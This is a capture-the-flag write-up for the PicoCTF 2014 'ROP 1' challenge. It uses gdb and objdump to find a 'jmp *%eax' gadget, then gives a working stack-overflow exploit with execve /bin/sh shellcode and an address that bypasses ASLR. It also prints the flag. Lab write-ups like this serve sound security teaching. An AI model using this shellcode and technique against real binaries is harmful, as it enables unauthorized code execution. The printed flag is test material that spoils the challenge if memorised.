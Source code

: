 # Pico CTF 2014 : ROP 1

**Category:** Binary Exploitation
**Points:** 100
**Description:**

>This binary is running on a machine with ASLR! Can you bypass it? The binary can be found at /home/rop1/ on the shell server. The source can be found [here](rop1.c).

**Hint:**
>ASLR is hard to beat if you need to predict an address, but what if you don't? What does %eax contain when vuln returns? Is there any code in the program which calls or jumps to it?

## Write-up

The hint asks a very important question, so let's find out in gdb!
```
/home/rop1$ gdb -q ./rop1
Reading symbols from ./rop1...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x08048e87 <+0>: push   %ebp
   0x08048e88 <+1>: mov    %esp,%ebp
   0x08048e8a <+3>: and    $0xfffffff0,%esp
   0x08048e8d <+6>: sub    $0x10,%esp
   0x08048e90 <+9>: call   0x8048e44 <be_nice_to_people>
   0x08048e95 <+14>:    cmpl   $0x1,0x8(%ebp)
   0x08048e99 <+18>:    jle    0x8048eab <main+36>
   0x08048e9b <+20>:    mov    0xc(%ebp),%eax
   0x08048e9e <+23>:    add    $0x4,%eax
   0x08048ea1 <+26>:    mov    (%eax),%eax
   0x08048ea3 <+28>:    mov    %eax,(%esp)
   0x08048ea6 <+31>:    call   0x8048e6d <vuln>
   0x08048eab <+36>:    mov    $0x0,%eax
   0x08048eb0 <+41>:    leave
   0x08048eb1 <+42>:    ret
End of assembler dump.
(gdb) b*main+36
Breakpoint 1 at 0x8048eab
(gdb) set arg ASDF
(gdb) r
Starting program: /home/rop1/rop1 ASDF

Breakpoint 1, 0x08048eab in main ()
(gdb) info register eax
eax            0xffffd690   -10608
(gdb) x /s 0xffffd690
0xffffd690: "ASDF"
(gdb) quit
```

If you're confused by this part, here's the breakdown. We set the program to
take "ASDF" as input. We then printed out what was at the address stored in 
`%eax` right after `vuln()` returns control to `main()`. Surely enough, it
points to our buffer! This will hold true for every run of the program despite
ASLR. The second part of the hint suggests that there is code that will jump to
`%eax`, meaning we can supply shellcode and call it!
```
/home/rop1$ objdump -d rop1 | grep jmp | grep eax
...
809ef72:   ff e0                   jmp    *%eax
80ab052:   ff e0                   jmp    *%eax
80b5399:   ff e0                   jmp    *%eax
80ba07b:   ff e0                   jmp    *%eax
80ba180:   ff e0                   jmp    *%eax
80ba960:   ff e0                   jmp    *%eax
80bae38:   ff e0                   jmp    *%eax
80bbf99:   ff e0                   jmp    *%eax
```
As you can see, there are several addresses that contain what we need! I'll
just take the bottom one and use it.

```
./rop1 $(python -c 'print "A"\*76 + "BBBB"')
```
We control `%eip` after 76 bytes, we just have to replace the "B"s with
0x80bbf99 and put shellcode in the first part of our buffer.
```
./rop1 $(python -c 'print
"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
+ "A"*(76-21) + "\x99\xbf\x0b\x08"')
$ ls
Makefile  flag.txt  rop1  rop1.c
$ cat flag.txt
theres_no_need_to_guess
```
The reason I have (76-21) in there is because you need to keep your padding
length the same, so I took 76 bytes minus the lenth of the shellcode, which is
21 bytes.
## Other write-ups and resources

* <http://ehsandev.com/pico2014/binary_exploitation/rop_1.html>
* <https://ctf-team.vulnhub.com/picoctf-2014-rop1/>
* <https://github.com/PizzaEaters/picoCTF-2014/tree/master/rop1>
